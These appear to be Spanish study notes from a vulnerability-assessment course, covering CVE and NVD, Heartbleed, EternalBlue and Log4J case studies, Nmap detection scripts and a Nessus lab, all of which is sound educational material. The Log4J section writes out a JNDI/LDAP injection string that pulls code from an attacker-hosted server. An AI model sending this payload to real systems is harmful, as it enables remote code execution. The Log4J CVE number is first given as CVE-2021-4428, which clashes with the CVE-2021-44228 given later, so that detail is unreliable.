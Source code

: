 # Assessment Methodologies: Vulnerability Assessment
# Indice


- [Introduccion](#introduccion)
- [Vulnerabilities](#vulnerabilities)
  - [¿Que es una vulnerabilidad?](#que-es-una-vulnerabilidad)
  - [CVE Program](#cve-program)
  - [NVD National Vulnerability Database](#nvd-national-vulnerability-database)
  - [Zero Days Attacks](#zero-days-attacks)
  - [Capa 8, la gente](#capa-8-la-gente)
- [Casos de malwares conocidos](#casos-de-malwares-conocidos)
  - [Heartbleed](#heartbleed)
  - [EternalBlue](#eternalblue)
  - [Log4J](#log4j)
- [Nessus Lab](#nessus-lab)
---
---

# Introduccion

En este modulo haremos una pequeña introduccion a algunas vulnerabilidades, entre ellas veremos algunos casos de estudio como:
- Heartbleed
- EternalBlue
- Log4J

Y practicaremos en laboratorios algunas aplicaciones:
- Nessus
- ExploitDB

# Vulnerabilities
## ¿Que es una vulnerabilidad?

Una vulnerabildad es una deficiendia en la logica de la computacion que se puede encontrar en software y en el harware, y que cuando esta se explota puede causar un impacto negativo en la confidencialidad, integridad y disponibilidad.

Pueden ser vulnerabilidades fisicas como controles de acceso, sistemas de energia de emergencia... Recordar que la ciberseguridad no solo engloba las intrusiones que se pueden hacer via software o por red, sino que tambien puede ser que alguien entre fisicamente y robe unos HD o inserte un malware via un usb.

Las vulnerabilidades de una maquina pueden ser debidas a algun software instalado en la maquina o al propio sistema operativo.

## CVE Program

Es una institucion que se encarga de registrar las vulnerabilidades que se van descubriendo. [WEB](https://cve.mitre.org/cve/)

Los CVE tienen un identificador unico que identifica a las vulterabilidades.

Ejemplo: `CVE-2021-4428` --> es el identificador para la vulnerabilidad del log4J

- En las paginas de detalle de cada vulnerabilidad podremos encontrar:
    - Descripcion.
    - Severidad.
    - Referencias.
    - Listado de debilidades.
    - Configuraciones de software afectadas conocidas.

- Para encontrar vulnerabilidades hay una serie de cosas que podemos hacer:
    - Scanning
    - Asset Identification + Research
    - Fuzz Testing

## NVD National Vulnerability Database

Es otro registro muy parecido al CVE.

## Zero Days Attacks

Son vulnerabilidades que nadie ha reportado, por lo que si encontraramos alguna es recomndable reportarla para ayudar a la comunidad.

## Capa 8, la gente

Las habilidades para conseguir informacion de las personas o que hagan cosas que nos interesas tambien se considera una vulnerabilidad a explotar, como por ejemplo la ingenieria social.

---
---
# Casos de malwares conocidos
## Heartbleed 

- *cve-2014-0160*

- [Extra info](https://heartbleed.com/)

Afecta a la librería OpenSSL, permite robar la informacion protegida permitiendo leer la memoria de sistemas con versiones vulnerables de este software enviando un **"crafted packet"**.

Las siguientes versiones de OpenSSL estan afectadas:

- OpenSSL 1.0.1 through 1.0.1f
- OpenSSL 1.0.2-beta through 1.0.2-beta1

Basicamente lo que se hace es crear un paquete como el de la imagen, donde se pregunta **"Hey, la contraseña es HotPan123!@#  ?"** al servidor, pero ademas en el paquete se le dice que la password tiene longitud, y esta es la vulnerabilidad. 

En este punto el servidor comprobará en su memoria la variable de la contraseña y si es correct la devolverá, pero toda la longitud que sobrepase la longitud de la contraseña la cogerá de la siguiente informacion que haya haciendo un overflow y dandonos informacion de mas.

![heartbleed](img/heartbleed-1.png)

![heartbleed](img/heartbleed-2.png)

### Como ver si un servidor es vulnerable a HeartBleed

Se puede usar el siguiente script de nmap para ver la version del SSL:
- `ssl-enum-ciphers`

Tambien hay disponible un script de Nmap que nos dice directamente si un servidor es vulnerable o no:

- `ssl-heartbleed`

## EternalBlue
- *CVE-2017-0143*

Es una vulnerabilidad que afecto a hospitales, gobiernos, organizaciones... durante una buena parte del año 2017. Este fue creado por la NSA (National Security Agency) y se filtro por el grupo de hackers **The Shadow Brokers**, este lo utilizo **Wanacry**  el 12 de mayo de 2017 para hacer un ataque mundial de rasomware. 

Es una vulnerabilidad que afecta a SMBv1 permitiendo ejecutar codigo en un ordenador a partir de paquetes especificos aprovechandose del overflow, de esta manera se puede ejecutar cualquier cosa, incluido conseguir una revertshell.

### Como ver si un servidor es vulnerable a EternalBlue

Tenemos un script especifico de Nmap (como no):
- `smb-vuln-ms17-010`

## Log4J
- *CVE-2021-44228*

Es una librería que se usa para loguearse en Java que tiene una vulnerabilidad que a traves de un servidor LDAP se puede ejecutar codigo en la maquina victima.

Aprovecha una vulnerabilidad que permite inyectar codigo en un input de login con el siguiente formato -->`${jndi:ldap://demo.ine:1389/mycode}`, este codigo, la sentencia **jndi** hace que cargue codigo de un servidor **LDAP** que el atacante tendría alojado, en este caso ejecutaría "**mycode**".

![log4j](img/log4j-1.png)

# Nessus Lab

Nessus es un programa de interficie grafica que nos ayuda a hacer una serie de escaners para detectar vulnerabilidades.